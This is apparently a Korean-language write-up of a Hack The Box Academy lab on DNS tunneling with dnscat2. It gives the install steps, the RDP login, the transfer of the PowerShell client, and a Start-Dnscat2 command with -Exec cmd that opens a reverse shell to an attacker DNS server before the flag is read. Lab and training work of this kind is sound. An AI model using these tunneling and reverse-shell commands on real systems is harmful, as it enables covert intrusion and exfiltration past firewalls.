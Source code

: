 ```yaml
---
title: "DNS Tunneling with Dnscat2"
date: 2025-10-01
layout: single
author_profile: true
toc: true
toc_label: "DNS Tunneling"
toc_icon: "globe"
toc_sticky: true
tags: [networking, dns, tunneling, exfiltration, dnscat2]
header:
  teaser: /assets/network-screenshots/dnscat2/dnscat2.png
---
```


**Dnscat2**는 DNS 프로토콜을 이용해 두 호스트 간에 암호화된 터널(커맨드 & 제어 채널)을 구성하는 도구이다.  
데이터는 주로 DNS의 TXT 레코드(또는 기타 레코드) 내부에 인코딩되어 전송되며, 일반적인 방화벽/프록시 규칙을 우회하거나 탐지를 어렵게 하는 데 사용될 수 있다.  
이 기법은 HTTPS 연결을 차단하거나 트래픽을 스니핑하는 방화벽을 회피하면서 데이터 유출에 악용될 수 있다.

---

# Dnscat2 설정 및 사용 실습

## 설치

먼저 `dnscat2` 저장소를 클론한다.

```bash
$ git clone https://github.com/iagox86/dnscat2.git

Cloning into 'dnscat2'...
remote: Enumerating objects: 6621, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 6621 (delta 2), reused 0 (delta 0), pack-reused 6611 (from 2)
Receiving objects: 100% (6621/6621), 3.84 MiB | 28.90 MiB/s, done.
Resolving deltas: 100% (4566/4566), done.
```

그후 몇 가지 설정을 한다.

```bash
$ cd dnscat2/server/
$ sudo gem install bundler
$ sudo bundle install
```

설치가 완료되면 클론한 디렉토리에서 `dnscat2` 서버를 시작할 수 있다.

## 서버 시작

클론한 리포지토리의 서버 디렉토리로 이동한 뒤 서버를 실행한다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/server-start.png)

서버가 시작되면 콘솔에 `secret(예: c00d7a...)` 이 표시된다. 이 키는 클라이언트와의 암호화/인증에 사용되므로 클라이언트에 동일한 `--secret` 값을 제공해야 안전하게 통신할 수 있다.

## 공격 호스트에 dnscat2-powershell 복제

공격 호스트에 Windows용 클라이언트로 사용할 `dnscat2-powershell`을 클론한다.

```bash
$ git clone https://github.com/lukebaggett/dnscat2-powershell.git

Cloning into 'dnscat2-powershell'...
remote: Enumerating objects: 194, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 194 (delta 0), reused 2 (delta 0), pack-reused 188 (from 1)
Receiving objects: 100% (194/194), 1.27 MiB | 22.74 MiB/s, done.
Resolving deltas: 100% (59/59), done.
```

이후 문제에서 제공한 아이디/비밀번호(`htb-student/HTB_@cademy_stdnt!`) 를 이용하여 RDP 세션에 접속한다.

```bash
$ xfreerdp3 /v:10.129.42.198 /u:htb-student /p:HTB_@cademy_stdnt!
```

이후, `python3` 웹 서버를 열어 공격 호스트에 `dnscat2.ps1` 파일을 옮겨준다.

```bash
$ python3 -m http.server 9999
```

공격 호스트에 `wget` 명령어를 이용하여 다운로드 한다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/wget.png)


## 세션 설정

`Import-Module` 명령어를 이용하여 `dnscat2.ps1` 스크립트를 불러온다.

```powershell
C:\Users\htb-student> Import-Module .\dnscat2.ps1
```

이후, 로컬에서 실행 중인 **dnscat2 서버의 주소와 도메인, Secret 키를 사용**해 클라이언트를 시작한다.

```powershell
C:\Users\htb-student> Start-Dnscat2 -DNSserver 10.10.14.89 -Domain inlanefreight.local -PreSharedSecret c00d7a451bf93fa63626874a78d0f5da -Exec cmd
```

설정 후 나의 로컬 쪽 dnscat2 터미널로 돌아가면 다음과 같이 **세션 연결** 로그를 확인할 수 있다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/session-connect.png)

이후 `dnscat` 콘솔에서 리버스 연결로 생성된 세션 창을 선택(`window -i 1`)하면 `C:\Users\htb-student` 사용자의 쉘을 획득할 수 있다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/whoami.png)

`whoami` 명령어를 사용하여 해당 세션이 **officemanager 도메인 OR 호스트 소속의 htb-student 계정**임을 확인할 수 있다.

## Flag 획득

문제에서 제공한 `C:\Users\htb-student\Documents\flag.txt` 경로의 파일을 읽어 플래그를 획득하였다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/flag.png)

이로써 **Dnscat2** 실습을 마쳤다.



